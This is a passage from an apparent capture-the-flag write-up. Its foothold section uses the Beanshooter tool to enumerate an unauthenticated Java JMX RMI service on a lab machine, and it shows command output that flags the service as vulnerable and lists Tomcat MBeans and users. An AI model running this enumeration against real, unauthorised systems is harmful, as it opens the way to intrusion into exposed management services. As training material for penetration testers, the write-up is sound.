 [Introducing MBeans](https://docs.oracle.com/javase/tutorial/jmx/mbeans/index.html)

## Foothold
### Exploiting Java JMXRMI

We can use the [Beanshooter](https://github.com/qtc-de/beanshooter) tool to enumerate the `jmxrmi` service and ultimately exploit the service to get a foothold on the box.

```console
➜  manage $ beanshooter enum $ip 2222                                                                                          
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Checking available bound names:
[+]
[+]     * jmxrmi (JMX endpoint: 127.0.1.1:44703)
[+]
[+] Checking for unauthorized access:
[+]
[+]     - Remote MBean server does not require authentication.
[+]       Vulnerability Status: Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+]     - Remote MBeanServer rejected the payload class.
[+]       Vulnerability Status: Non Vulnerable
[+]
[+] Checking available MBeans:
[+]
[+]     - 158 MBeans are currently registred on the MBean server.
[+]       Listing 136 non default MBeans:
[+]       - org.apache.tomcat.util.modeler.BaseModelMBean (Catalina:type=Loader,host=localhost,context=/host-manager)
[+]       - org.apache.catalina.mbeans.ContainerMBean (Catalina:j2eeType=Servlet,WebModule=//localhost/examples,name=numberwriter,J2EEApplication=none,J2EEServer=none)
[+]       - org.apache.catalina.mbeans.NamingResourcesMBean (Catalina:type=NamingResources,host=localhost,context=/host-manager)
[+]       - org.apache.catalina.mbeans.ContainerMBean (Catalina:j2eeType=Servlet,WebModule=//localhost/host-manager,name=HostManager,J2EEApplication=none,J2EEServer=none)
[+]       - org.apache.tomcat.util.modeler.BaseModelMBean (Catalina:j2eeType=Filter,WebModule=//localhost/host-manager,name=Tomcat WebSocket (JSR356) Filter,J2EEApplication=none,J2EEServer=none)

[...SNIP...]

[+]       - org.apache.catalina.mbeans.UserMBean (Users:type=User,username="manager",database=UserDatabase)
[+]       - org.apache.catalina.mbeans.ContainerMBean (Catalina:j2eeType=Servlet,WebModule=//localhost/examples,name=responsetrailer,J2EEApplication=none,J2EEServer=none)
[+]       - org.apache.catalina.mbeans.ContainerMBean (Catalina:j2eeType=Servlet,WebModule=//localhost/manager,name=JMXProxy,J2EEApplication=none,J2EEServer=none)
[+]       - org.apache.catalina.mbeans.ContainerMBean (Catalina:j2eeType=Servlet,WebModule=//localhost/manager,name=HTMLManager,J2EEApplication=none,J2EEServer=none)
[+]       - org.apache.tomcat.util.modeler.BaseModelMBean (Catalina:type=ParallelWebappClassLoader,host=localhost,context=/)
[+]       - org.apache.catalina.mbeans.ContextEnvironmentMBean (Catalina:type=Environment,resourcetype=Context,host=localhost,context=/examples,name=foo/bar/name2)
[+]       - com.sun.management.internal.DiagnosticCommandImpl (com.sun.management:type=DiagnosticCommand) (action: diagnostic)
[+]
[+] Enumerating tomcat users:
[+]
[+]     - Listing 2 tomcat users:
[+]
[+]             ----------------------------------------
```